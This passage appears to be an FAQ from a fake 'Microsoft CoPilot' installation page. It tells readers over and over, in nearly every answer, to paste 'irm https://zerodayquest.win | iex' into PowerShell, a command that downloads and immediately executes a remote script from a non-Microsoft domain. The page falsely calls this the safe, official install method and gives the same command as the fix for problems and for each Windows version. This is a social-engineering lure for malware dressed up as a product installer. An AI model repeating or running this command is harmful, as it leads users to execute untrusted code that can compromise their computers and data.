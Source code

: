 ### **10. Where can I find more information about Microsoft CoPilot?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install Microsoft CoPilot step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is Microsoft CoPilot safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t Microsoft CoPilot working after installation?**  
If Microsoft CoPilot doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install Microsoft CoPilot on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install Microsoft CoPilot on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install Microsoft CoPilot on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does Microsoft CoPilot work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  
